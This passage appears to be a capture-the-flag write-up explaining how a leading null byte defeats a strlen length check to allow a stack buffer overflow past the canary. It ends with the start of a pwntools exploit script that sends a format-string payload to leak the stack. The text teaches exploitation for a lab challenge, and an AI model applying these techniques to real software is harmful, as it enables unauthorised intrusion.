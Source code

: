 ### Bypassing length checking

Say we have a buffer that starts at `0x40000000`, and that we called `gets`, which stores our input there, and inputted `aaaa`. Memory would look like this:

```text
...
0x40000000 | "aaaa"
0x40000004 | ""
...
```

Then, we call `strlen`, to check, the length of this, so:

```text
...
0x40000000 | "aaaa"    <=== strlen checks this
0x40000004 | ""
...
```

And will return `4`. However, memory separates strings with null bytes. So for example:

```text
0x40000000 | "aaaa[\x00]bbbb"
```

Would look more like this:

```text
...
0x40000000 | "aaaa"
0x40000005 | "bbbb"
...
```

So, if we inputted `aaaa\x00bbbb`, the strlen would return the length of just `aaaa`, which is 4. So, what happens if we put a null byte at the start of our input?

Well, if we inputted `\x00aaaabbbb`, this would happen:

```text
...
0x40000000 | ""         <=== strlen checks this
0x40000001 | "aaaabbbb"
...
```

So, `strlen` would return a length of 0, and we'd be able to overwrite the buffer, canary and return pointer as normal

### Final Exploit

So, here's my final exploit:

```python
from pwn import *
from sys import argv

e = ELF("./chall")

try:    # Remote
    host = argv[1].split(":")
    p = remote(host[0], host[1])
    libc = ELF("./libc-2.27.so")    # Remote libc
except:    # Local
    p = e.process()
    libc = ELF("/usr/lib/x86_64-linux-gnu/libc-2.30.so")    # My libc

p.sendline("%p|" * 21)        # Leak the stack
leak = p.clean(0.2).split(b"|")
```